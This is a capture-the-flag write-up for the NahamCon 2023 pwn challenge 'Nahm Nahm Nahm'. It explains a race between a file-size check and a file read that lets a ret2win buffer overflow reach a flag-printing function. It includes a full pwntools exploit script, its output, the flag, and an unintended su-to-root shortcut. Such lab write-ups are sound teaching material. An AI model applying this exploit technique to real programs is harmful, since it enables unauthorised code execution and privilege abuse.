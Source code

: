 # NahamCon 2023

## Nahm Nahm Nahm

> Me hungry for files!
>
>  Author: @WittsEnd
>
> [`nahmnahmnahm`](nahmnahmnahm)

Tags: _pwn_

## Solution
First thing is to check what the application is doing. Before running the application some rough understanding can be gathered by reversing the application with Ghidra.

```c
int main(int argc,char **argv)
{
  // ...
  printf("Enter file: ");
  fgets(filename,0x7f,stdin);
  lengthWithoutNewline = strcspn(filename,"\n");
  filename[lengthWithoutNewline] = '\0';
  hasFlagInName = strstr(filename,"flag");
  if (hasFlagInName == (char *)0x0) {
    fileState = lstat(filename,(stat *)&st);
    if (fileState == -1) {
      perror("stat");
    }
    else if ((st.st_mode & 0xf000) == 0xa000) {
      perror("is_symlink");
      fileState = -1;
    }
    else if (st.st_size < 0x51) {
      puts("Press enter to continue:");
      getchar();
      vuln(filename);
    }
    else {
      perror("File size");
      fileState = -1;
    }
  }
  else {
    perror("filename contains flag");
    fileState = -1;
  }
  return fileState;
}
```

First a filename is entered. Then there are some checks, the filename cannot have `flag` in it and the file cannot be a `symlink`. Therefore creating a symlink to the flag is not possible. The last condition is that the file cannot be larger than 81 bytes. If the file passed fullfils all the tests the user is prompted to hit enter and the flow continues in `vuln`.

```c
void vuln(char *filename)

{
  FILE *__stream;
  char buffer [80];
  FILE *f;
  
  __stream = fopen(filename,"r");
  if (__stream == (FILE *)0x0) {
    perror("fopen");
  }
  else {
    fread(buffer,1,0x1000,__stream);
    printf("%s",buffer);
  }
  return;
}
```

Ok, the name aside, this function is definitely vulnerable to buffer overflow. Max 4k worth of content is read into a 80 byte buffer. To avoid this the calling function checked the filesize. But there is a race-conditionish thing since the file size check and the actual reading of the file is delayed until the user hits enter. To a empty file can be passed, passing the check and afterwards can be filled with a payload. After the user hit enter the file is freshly opened and the payload is read causing a buffer overflow no matter of the size check before.

Another interesting function is `winning_function` which is not called anywhere but reads and prints the flag. So a typical `ret2win` scenario.

```c
void winning_function(void)
{
  FILE *__stream;
  char contents [256];
  FILE *f;
  
  puts("Welcome to the winning function!");
  __stream = fopen("flag","r");
  fread(contents,1,0x100,__stream);
  puts(contents);
  fclose(__stream);
  return;
}
```

With the analysis done the plan is to overflow the buffer and override the return address of `vuln` to point to `winning_function`. The following python script does exactly this.

```python
from pwn import *

binary = context.binary = ELF("/home/user/nahmnahmnahm", checksec=False)
p = process(binary.path)

# overflow buffer and override return address pointing to winning_function
payload = b"X"*104
payload += p64(binary.sym.winning_function)

# open/clear file
f = open("/tmp/foo", "wb")

# enter file with empty content to pass file size check
p.sendlineafter(b"Enter file:", b"/tmp/foo")

# wait until file is fully read and file size check was done
p.recvuntil(b"Press enter to continue:\n")
# write payload to file
f.write(payload)
f.close()

# press 'enter'
p.sendline(b"")

# read back and print flag
result = p.recv()
print(result[result.index(b"flag"):-2].decode("utf-8"))
```

```bash
user@:~$ python3 /tmp/solve.py
[+] Starting local process '/home/user/nahmnahmnahm': pid 41
flag{d41d8cd98f00b204e9800998ecf8427e}
[*] Stopped process '/home/user/nahmnahmnahm' (pid 41)
```

> **Note**
> 
> For this task where was a configuration issue allowing the user to su as root (password userpass) and just cat the flag

```bash
user@:~$ su -
Password:
root@nahm-nahm-nahm-8c5bb4eef8e8fa9e-79597b5cf-qwcpb:~# cd /home/user
root@nahm-nahm-nahm-8c5bb4eef8e8fa9e-79597b5cf-qwcpb:/home/user# cat flag
flag{d41d8cd98f00b204e9800998ecf8427e}
```

Flag `flag{d41d8cd98f00b204e9800998ecf8427e}`